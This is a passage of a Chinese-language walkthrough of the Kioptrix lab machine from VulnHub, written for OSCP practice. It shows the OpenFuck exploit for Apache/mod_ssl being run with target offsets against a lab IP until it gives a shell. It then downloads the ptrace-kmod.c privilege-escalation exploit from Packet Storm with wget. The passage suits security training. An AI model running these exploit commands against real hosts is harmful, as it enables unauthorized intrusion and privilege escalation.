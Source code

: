 执行编译后的`openfuck`，查看帮助，提供用法

```shell
./openfuck
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\18.jpg)

大概用法就是

```shell
./openfuck 192.168.1.104 [box] 443
```

向下翻找，发现与前面`nmap`扫描出的`443`端口的服务版本`redhat`，中间件版本`apache 1.3.20`对应的有两个

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\19.jpg)

测试这两个即可

```shell
./openfuck 192.168.1.104 0x6a 443

./openfuck 192.168.1.104 0x6b 443
```

这里经过测试两个，发现都是提示超时

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\20.jpg)

可能这里无法利用，不过查看了网上的`wp`，发现可以利用，这让我陷入深思，所以暂且到这里，等我搞清楚，会发布

这里原因是我顺序搞错了，没仔细看帮助用法

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\22.jpg)

```shell
./openfuck 0x6a 192.168.1.104  443

./openfuck 0x6b 192.168.1.104  443
```

测试，发现第二个`0x6b`可获取，但是获取的并非`root`权限，提示是执行后缺失文件

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\23.jpg)

不过这里缺失的文件，给出了下载链接

但是这里是对靶机内缺失的文件进行下载，所以在`kali`先下载该文件后，再通过`python`开启简易`http`服务，下载到靶机内

```shell
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\24.jpg)

因为获取的shell当前目录就是在`/tmp`。所以可以下载，所以直接使用`wget`下载到这里

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\25.jpg)
